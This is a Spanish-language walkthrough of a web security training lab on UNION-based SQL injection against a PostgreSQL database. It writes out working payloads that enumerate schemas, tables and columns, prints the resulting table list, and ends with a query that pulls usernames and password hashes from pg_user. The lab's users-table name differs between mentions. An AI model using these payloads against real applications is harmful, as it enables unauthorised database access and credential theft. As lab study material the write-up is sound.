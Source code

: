# 📚 Lab: SQL injection attack, listing the database contents on non-Oracle databases 📚

Como sabemos que la base de datos no es oracle y que la vulnerabilidad esta en la categoria de productos, podemos analizar la cantidad de columnas despues de seleccionar un producto con el siguiente comando en la url:  
' UNION SELECT null,null-- -.

Al hacerlo, podremos descubrir que la tabla, tiene dos columnas, luego, con el siguinte comando:  

' UNION SELECT schema_name,NULL FROM information_schema.schemata-- -

Podremos ver las bases de datos, para analizarlas y no tocar bases de datos por defecto de la DBMS.  
Al hacerlo, podremos ver la base de datos "public", la cual nos interesa para este room.

Con el siguiente inyeccion, podremos ver las tablas en la base de datos "public"

' UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema = 'public'-- -

Donde podremos ver las tablas products y users_xktbui, la cual esta ultima es la que nos interesa.


Indentificamos la cantidad de columnas  
Identificamos cual es la que devuelve un dato y lo imprime sin errores  
Al indentificar, pondremos la inyeccion SELECT * FROM information_schema.tables, modificandola segun la cantidad de columnas y sus datos: SELECT TABLE_NAME, NULL FROM information_schema.tables  
Datos adquiridos:
pg_partitioned_table
pg_available_extension_versions
pg_shdescription
user_defined_types
udt_privileges
sql_packages
pg_event_trigger
pg_amop
schemata
routines
referential_constraints
administrable_role_authorizations
products
pg_foreign_data_wrapper
pg_prepared_statements
pg_largeobject_metadata
foreign_tables
sql_implementation_info
collation_character_set_applicability
check_constraint_routine_usage
pg_statio_user_sequences
pg_cast
pg_user_mappings
pg_statio_all_tables
pg_stat_progress_vacuum
pg_statio_sys_sequences
foreign_servers
sql_features
pg_stat_wal_receiver
pg_pltemplate
constraint_table_usage
pg_ts_parser
parameters
pg_stat_activity
pg_ts_template
element_types
pg_stat_subscription
pg_stat_all_tables
pg_locks
pg_seclabel
pg_ts_config
pg_stat_archiver
pg_stat_ssl
role_udt_grants
pg_stat_xact_user_functions
pg_am
domain_udt_usage
column_privileges
pg_policy
pg_timezone_names
domains
pg_amproc
pg_replication_origin
information_schema_catalog_name
pg_ts_dict
character_sets
pg_db_role_setting
pg_publication
pg_stat_xact_sys_tables
foreign_data_wrappers
routine_privileges
pg_views
pg_foreign_table
pg_statio_sys_indexes
pg_database
user_mappings
pg_class
pg_foreign_server
pg_type
view_column_usage
applicable_roles
pg_group
views
domain_constraints
pg_stat_user_tables
view_table_usage
pg_transform
pg_stat_sys_indexes
role_routine_grants
role_column_grants
user_mapping_options
pg_aggregate
pg_stat_database_conflicts
pg_stat_database
sql_sizing
triggers
triggered_update_columns
pg_tables
usage_privileges
foreign_table_options
pg_index
pg_prepared_xacts
pg_description
pg_auth_members
pg_statistic_ext
pg_cursors
pg_statio_all_sequences
pg_stat_replication
pg_settings
role_table_grants
pg_statio_all_indexes
pg_depend
pg_subscription
pg_subscription_rel
columns
pg_stat_xact_user_tables
pg_stat_progress_cluster
sequences
pg_stats
pg_seclabels
pg_attribute
check_constraints
pg_rules
pg_timezone_abbrevs
pg_default_acl
pg_stat_gssapi
pg_stat_sys_tables
pg_shseclabel
pg_opclass
pg_stat_bgwriter
pg_sequence
foreign_server_options
constraint_column_usage
pg_operator
pg_extension
view_routine_usage
pg_indexes
pg_replication_slots
pg_roles
enabled_roles
data_type_privileges
key_column_usage
pg_sequences
pg_rewrite
pg_statio_user_tables
pg_attrdef
sql_languages
pg_tablespace
pg_stat_all_indexes
attributes
pg_language
pg_opfamily
pg_publication_rel
pg_ts_config_map
pg_statio_sys_tables
pg_shdepend
table_constraints
pg_matviews
sql_sizing_profiles
users_zwtnep
pg_collation
collations
table_privileges
pg_stats_ext
column_domain_usage
pg_stat_user_indexes
pg_publication_tables
pg_proc
pg_statio_user_indexes
pg_available_extensions
tables
role_usage_grants
pg_init_privs
pg_range
pg_namespace
pg_trigger
column_udt_usage
pg_enum
pg_policies
pg_user
column_column_usage
pg_stat_progress_create_index
pg_constraint
pg_stat_user_functions
pg_conversion
foreign_data_wrapper_options
pg_inherits
pg_stat_xact_all_tables
column_options

Una vez enumeradas las tablas, buscamos las que parezcan tener los usuarios, en este caso: pg_user, para poder extraer los datos de una tabla, necesitamos saber los nombres de sus columnas, podemos hacerlo con este comando:' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'pg_user'--, obteniendo asi

useconfig
usesuper
usecreatedb
userepl
passwd
usesysid
valuntil
usebypassrls
usename

pensando que passwd y username las columbas que contienen los datos de los usuarios, usamos el siguiente comando para obtener los datos.
' UNION SELECT usename || ':' || passwd, NULL FROM pg_user--
